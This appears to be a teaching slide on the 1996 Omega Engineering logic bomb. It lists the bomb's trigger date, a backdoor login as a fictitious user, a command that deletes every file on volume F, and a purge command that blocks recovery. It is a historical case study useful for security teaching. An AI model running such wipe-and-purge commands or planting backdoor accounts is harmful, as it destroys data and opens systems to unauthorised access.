

# The Omega Bomb Code
The Logic Behind the Omega Engineering Time Bomb included the following strings:
7/30/96
Event that triggered the bomb
F:
Focused attention to volume F, which had critical files
F:\LOGIN\LOGIN 12345
Login a fictitious user, 12345 (the back door)
CD \PUBLIC
Moves to the public folder of programs
FIX.EXE /Y F:\*.*
Run a program, called FIX, which actually deletes everything
PURGE F:\/ALL
Prevent recovery of the deleted files